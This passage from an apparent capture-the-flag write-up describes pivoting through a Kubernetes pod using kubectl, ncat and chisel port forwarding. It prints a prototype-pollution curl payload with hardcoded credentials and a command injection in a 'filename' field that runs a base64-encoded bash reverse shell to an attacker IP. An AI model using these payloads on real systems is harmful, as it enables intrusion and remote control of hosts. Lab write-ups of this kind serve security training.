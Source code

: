 <img src="https://i.imgur.com/FXGPYXq.png">

We have 3 pods running in `dev` namespace , to get information of a pod in this namespace we can use this command 

` ./kubectl get -o json pod devnode-deployment-cd86fb5c-6ms8d -n dev`

<img src="https://i.imgur.com/fwKP05X.png"/>

It has an exposed port which is 3000 as we saw from the nmap scan so this means it will be runnning the same API server from which we can get a rev shell again , now let's look for it's IP

<img src="https://i.imgur.com/wURj7gl.png"/>

<img src="https://i.imgur.com/iaaSQaU.png"/>

I got the rev shell again so that I could have to shells on the docker container , as I need a rev shell on the docker container again and I don't want to do port forwarding

<img src="https://i.imgur.com/tQ3BScL.png"/>

I transferred static binary of `ncat`  on docker container

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat

<img src="https://i.imgur.com/oa8q7Bg.png"/>

```
curl -X PUT -H 'Content-Type: application/json' http://172.17.0.10:3000 --data '{"auth":{"name":"felamos","password":"Winter2021"},"message":{"__proto__":{"canUpload":true}}}'


```

```
curl --header "Content-Type: application/json" \
  --request POST \
  --data '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"& echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC40LzIyMjIgMD4mMQ==' |base64 -d|bash"}' \
  http://172.17.0.10:3000/upload
  
  ```
  
  Doing those steps again still I couldn't get a shell back
  
  <img src="https://i.imgur.com/L03BOQv.png"/>
  
  Now we really need to do portforwarding as this doesn't work on docker container , so we'll have to use `chisel` for port forwarding
  
  <img src="https://i.imgur.com/h5ZqKBf.png"/>
  
  <img src="https://i.imgur.com/TkPFR09.png"/>
  
  Here I am have started a chisel server on  port 2222 and on the client I am port forwarding the port 3000 from the target 172.17.0.10 and mappning it on port 3000 on my machine
  
